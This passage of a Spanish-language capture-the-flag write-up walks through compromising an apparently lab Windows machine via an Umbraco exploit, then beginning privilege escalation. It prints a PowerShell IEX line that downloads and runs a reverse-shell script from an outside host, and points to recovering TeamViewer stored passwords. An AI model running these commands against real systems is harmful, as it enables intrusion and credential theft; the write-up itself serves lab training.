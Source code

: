     ```python
    proc.StartInfo.FileName = "cmd.exe"
    cmd = "/c powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.8/conptyshell.ps1\')"
    ```

1. Lanzamos el script

    ```bash
    python3 umbraco_exploit.py
    ```

Aqui vemos que hemos ganado acceso al systema como el usuario **defaultappool** con una shell totalmente interactiva.

### Tratamiento de la TTY {-}

```bash
^Z
stty raw -echo; fg
Enter
whoami
whoami
cd C:\
cd C:\
```

Aqui ya podemos ver la flag en el directorio Public.
## Privilege Escalation {-}

### Rootear la maquina {-}

```powershell
whoami
systeminfo
whoami /priv
```

Aqui vemos que tenemos privilegios SeImpersonatePrivilege. Podriamos tratar de utilizar el JuicyPotato pero en este caso vamos a hacerlo de otra forma.
Si hacemos 

```powershell
tasklist
```

Vemos que hay un **TeamViewer_Service.exe**. 

```bash
locate teamviewer | grep "metasploit"
cat /usr/share/metasploit-framework/modules/post/windows/gather/credentials/teamviewer_passwords.rb
```

Como no vamos a utilizar metasploit nos creamos un script en python, pero primero miramos el script y recuperamos la version y la contraseña cifrada.
